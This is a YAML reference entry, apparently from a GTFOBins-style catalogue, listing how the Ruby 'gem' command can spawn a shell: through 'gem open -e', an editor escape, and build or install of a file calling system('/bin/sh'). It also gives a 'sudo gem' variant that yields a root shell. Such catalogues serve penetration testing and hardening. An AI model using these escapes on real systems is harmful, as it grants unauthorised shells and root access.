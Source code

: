 ```yaml
---
functions:
  shell:
    - description: This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: gem open -e "/bin/sh -c /bin/sh" rdoc
    - description: This invokes the default editor, which is likely to be [`vi`](/ptbins/vi/), other functions may apply. This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: |
        gem open rdoc
        :!/bin/sh
    - description: This executes the specified file as [`ruby`](/ptbins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem build $TF/x
    - description: This executes the specified file as [`ruby`](/ptbins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem install --file $TF/x
  sudo:
    - description: This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: sudo gem open -e "/bin/sh -c /bin/sh" rdoc
---
```

